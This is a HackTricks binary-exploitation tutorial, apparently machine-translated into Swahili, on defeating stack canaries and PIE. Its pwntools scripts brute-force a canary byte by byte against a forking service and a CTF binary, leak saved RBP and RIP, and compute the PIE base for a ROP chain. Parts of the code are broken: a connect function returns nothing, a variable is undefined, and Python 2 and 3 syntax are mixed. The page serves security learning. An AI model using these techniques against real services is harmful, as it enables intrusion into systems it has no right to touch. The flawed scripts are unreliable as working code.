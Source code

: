 <details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako inatangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>


**Ikiwa unakabiliwa na faili ya binary iliyolindwa na canary na PIE (Position Independent Executable), labda unahitaji kupata njia ya kuzipuuza.**

![](<../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
Tambua kwamba **`checksec`** inaweza isigundue kuwa faili ya binary imehifadhiwa na canary ikiwa ilikusanywa kwa njia ya static na haiwezi kutambua kazi hiyo.\
Walakini, unaweza kugundua hii kwa kujaribu kugundua ikiwa thamani imehifadhiwa kwenye stack mwanzoni mwa wito wa kazi na thamani hii inakaguliwa kabla ya kutoka.
{% endhint %}

# Kuvunja nguvu ya Canary

Njia bora ya kuzipuuza canary rahisi ni ikiwa faili ya binary ni programu **inayofanya mchakato wa watoto kila wakati unapounda uhusiano mpya** nayo (huduma ya mtandao), kwa sababu kila wakati unapounganisha nayo **canary ile ile itatumika**.

Kwa hivyo, njia bora ya kuzipuuza canary ni kwa kuijaribu **kwa nguvu kwa kila herufi**, na unaweza kugundua ikiwa herufi ya canary iliyoguza ni sahihi kwa kuchunguza ikiwa programu imeanguka au inaendelea na mtiririko wake wa kawaida. Katika mfano huu, kazi **inajaribu kwa nguvu canary ya 8 Bytes (x64)** na kutofautisha kati ya herufi iliyoguza sahihi na herufi mbaya tu kwa **kuchunguza** ikiwa **jibu** linatumwa na seva (njia nyingine katika **hali nyingine** inaweza kuwa kutumia **jaribu/kukamata**):

## Mfano 1

Mfano huu umetekelezwa kwa 64bits lakini unaweza kutekelezwa kwa urahisi kwa 32 bits.
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```
## Mfano wa Pili

Hii imeboreshwa kwa ajili ya biti 32, lakini inaweza kubadilishwa kwa urahisi kuwa biti 64.\
Pia kumbuka kwamba kwa mfano huu **programu inatarajia kwanza byte kuonyesha ukubwa wa kuingiza** na mzigo.
```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
known_canary = b""
test_canary = 0x0
len_bytes_to_read = 0x21

for j in range(0, 4):
# Iterate up to 0xff times to brute force all posible values for byte
for test_canary in range(0xff):
print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")

# Send the current input size
target.send(len_bytes_to_read.to_bytes(1, "little"))

# Send this iterations canary
target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

# Scan in the output, determine if we have a correct value
output = target.recvuntil(b"exit.")
if b"YUM" in output:
# If we have a correct value, record the canary value, reset the canary value, and move on
print(" - next byte is: " + hex(test_canary))
known_canary = known_canary + test_canary.to_bytes(1, "little")
len_bytes_to_read += 1
break

# Return the canary
return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```
# Chapisha Canary

Njia nyingine ya kuepuka canary ni kui**chapisha**.\
Fikiria hali ambapo **programu inayoweza kudhurika** na kujaa kwa stack inaweza kutekeleza kazi ya **puts** ikielekeza kwa **sehemu** ya **kujaa kwa stack**. Mshambuliaji anajua kuwa **baiti ya kwanza ya canary ni sifuri** (`\x00`) na sehemu iliyobaki ya canary ni **baiti za nasibu**. Kisha, mshambuliaji anaweza kuunda kujaa kwa kiasi kinachosababisha **kuandika juu ya stack hadi kufikia baiti ya kwanza ya canary**.\
Kisha, mshambuliaji **anaita kazi ya puts** katikati ya mzigo wa data ambayo ita**chapisha canary yote** (isipokuwa baiti ya kwanza ya sifuri).\
Kwa habari hii, mshambuliaji anaweza **kuunda na kutuma shambulio jipya** akijua canary (katika kikao kimoja cha programu)

Kwa dhahiri, mkakati huu ni **mdogo** sana kwani mshambuliaji anahitaji kuweza **kuchapisha** **maudhui** ya mzigo wake ili **kunasa** canary na kisha kuweza kuunda mzigo mpya (katika **kikao kimoja cha programu**) na **kutuma** **kujaa kwa buffer** halisi.\
Mfano wa CTF: [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)

# PIE

Ili kuepuka PIE, unahitaji **kuvuja anwani fulani**. Na ikiwa faili ya binary haijafichua anwani yoyote, njia bora ya kufanya hivyo ni **kujaribu kwa nguvu RBP na RIP zilizohifadhiwa kwenye stack** katika kazi inayoweza kudhurika.\
Kwa mfano, ikiwa faili ya binary inalindwa kwa kutumia **canary** na **PIE**, unaweza kuanza kujaribu kwa nguvu canary, kisha **baiti zingine 8 (x64)** zitakuwa RBP iliyohifadhiwa na **baiti zingine 8** zitakuwa RIP iliyohifadhiwa.

Kwa kujaribu kwa nguvu RBP na RIP kutoka kwenye binary, unaweza kugundua kuwa baiti sahihi iliyokadiriwa ni sahihi ikiwa programu inatoa matokeo au tu haipati ajali. **Kazi ile ile** iliyotolewa kwa kujaribu kwa nguvu canary inaweza kutumika kwa kujaribu kwa nguvu RBP na RIP:
```python
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
## Pata anwani ya msingi

Jambo la mwisho unalohitaji kushinda PIE ni kuhesabu anwani muhimu kutoka kwa anwani zilizovuja: RBP na RIP.

Kutoka kwa RBP, unaweza kuhesabu mahali ambapo unaiandika kwenye stack. Hii inaweza kuwa muhimu sana kujua wapi unakwenda kuandika herufi "/bin/sh\x00" ndani ya stack. Ili kuhesabu umbali kati ya RBP iliyovuja na shellcode yako, unaweza tu kuweka kizuizi baada ya kuvuja RBP na kuangalia mahali shellcode yako ilipo, kisha unaweza kuhesabu umbali kati ya shellcode na RBP:
```python
INI_SHELLCODE = RBP - 1152
```
Kutoka kwa **RIP** unaweza kuhesabu **anwani ya msingi ya faili ya PIE** ambayo ndiyo utahitaji kuunda **mlolongo sahihi wa ROP**.\
Kuhesabu anwani ya msingi, fanya tu `objdump -d vunbinary` na angalia anwani za hivi karibuni za kuchambua:

![](<../../.gitbook/assets/image (145).png>)

Katika mfano huo, unaweza kuona kuwa inahitajika **Byte 1 na nusu tu** kuweza kupata nambari yote, basi, anwani ya msingi katika hali hii itakuwa **RIP iliyovuja lakini ikimalizika kwa "000"**. Kwa mfano ikiwa ulivuja _0x562002970**ecf** _ anwani ya msingi ni _0x562002970**000**_
```python
elf.address = RIP - (RIP & 0xfff)
```
<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana katika HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
